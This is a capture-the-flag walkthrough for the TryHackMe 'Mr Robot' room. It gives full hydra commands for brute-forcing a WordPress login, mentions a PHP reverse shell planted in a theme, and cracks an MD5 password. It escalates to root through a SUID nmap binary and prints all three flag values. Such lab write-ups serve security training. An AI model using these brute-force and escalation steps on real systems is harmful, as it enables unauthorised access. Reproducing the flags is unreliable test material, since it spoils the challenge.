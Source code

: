 # Mr Robot CTF
https://tryhackme.com/room/mrrobot

## Enumeration
22: SSH
80: Apache httpd (web server)
443: Apache httpd (web server)

## Flag 1
http://<ip>:80/robots

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

**http://<ip>:80/key-1-of-3.txt**
> 073403c8a58a1f80d943455fb30724b9

## Flag 2

**http://<ip>:80/fsociety.dic**
> Dictionary of words (probably a wordlist)

Found WP-Login using Gobuster
http://<ip>/wp-login.php

Capture the post request in BurpSuite, this will give us the paramaters that we need to bruteforce credentials.

I then took that into hydra using the parameters from the login along with a failure statement F=<string>

`hydra -L fsocity.dic -p test 10.10.180.168 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.180.168%2Fwp-admin%2F&testcookie=1:F=Invalid username"`

This will bruteforce usernames & passwords and return responses that don't contain "Invalid username"

Found: 
> [80][http-post-form] host: 10.10.180.168   login: elliot   password: test

Now the password won't be correct, however we now have a username. Elliot.

I will now bruteforce the password for this user also using hydra, except it will check for a 302 status code to indicate a successful password.

`hydra -l elliot -P fsocity.dic 10.10.180.168 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.180.168%2Fwp-admin%2F&testcookie=1:S=302"`

We then find the password: "ER28-0652"

After logging in I attempt to get a reverse shell by modifying the code within the WP Theme to include some malicious PHP code. I recieved this shell using netcat.

I check the /home/ directory and find a user called robot so I check this user's home directory and I can see two files

```
4.0K -r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
4.0K -rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

I can't view the key-2-of-3.txt file due to the permissions, so I need to use the "robot" user.
I can however view the password.raw-md5 file which contains the following text.

robot:c3fcd3d76192e4007dfb496cca67e13b

Cracked using John shows the password: abcdefghijklmnopqrstuvwxyz

I then view the key-2-of-3.txt file to get the next flag.
> 822c73956184f694993bede3eb39f959

## Flag 3

I check for SUID bits using `find / -user root -perm -4000 -print 2>/dev/null` and find an nmap binary with a SUID bit set which is exploitable by using `<path to nmap binary> --interactive` then running `!sh` I can escape the binary with the permissions still intact from root.

I then used the layout of the other files and searched for "key-3-of-3.txt" using `find / -name "key-3-of-3.txt"`

This file contained the last flag:
> 04787ddef27c3dee1ee161b21670b4e4
